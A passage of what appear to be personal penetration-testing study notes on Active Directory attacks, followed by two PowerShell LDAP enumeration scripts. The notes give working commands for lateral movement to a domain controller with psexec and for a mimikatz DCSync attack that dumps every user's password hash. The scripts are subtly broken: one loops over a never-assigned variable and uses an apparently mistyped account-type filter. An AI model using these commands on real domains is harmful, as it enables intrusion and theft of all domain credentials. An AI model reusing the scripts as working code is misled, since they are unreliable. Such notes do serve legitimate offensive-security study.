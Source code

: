		And the attempt lateral movement with psexec:
			psexec.exe \\dc01 cmd.exe
		We now have an interactive shell on the domain controller and the whoami command shows that we are corp\fakeuser, a user that does not even exists in the AD domain and whoami /groups show that we are members of many powerful user groups, including the Domain Admins group, BINGO!
	Domain Controller Synchronization:
		Another way to achieve persistence in an AD domain, is to steal the password hashes for all administrative users in the domain.
		We could achieve this moving laterally from the domain controller and user mimikats to dump the hashes of all the users or steal a copy of the NTDS.dit database file (which is a copy of all the AD accounts stored on the hard drive), but these methods leave indicator of compromise and require to upload tools to the target machines.
		Another option is to abuse AD functionalities to reduce our attacker footprint. In prodction environments, there are usually more than one Domain Controller in a domain, this to provide redundancy. The Directory Replication Service, a remote protocol, uses replication to synchronize all the domain controllers in the domain.
		When a domani controller receives a request for an update, the domain controller does not verify that such request comes from another known domain controller, but it only verifies that the SID associated with the request has the correct privileges. If we attempt to issue a rougue update request to a domain controller from a user that is member of the Domain Admins, it will succeed. To request the replication we use once more mimikats:
			mimikatz # lsadump::dcsync /user:Administrator
		The output will contain the password hashes of all the users of the AD domain and we were able to achieve that without even logging onto the Domian Controller

###### enumeratead1.ps1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

###### enumeratead2.ps1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter = "samAccountType=80536368"
$Searcher.FindAll()
Foreach($obj in $Result)
{
	Foreach($prop in $obj.Properties)
	{
		$prop
	}
	Write-Host "-------------------------"
}
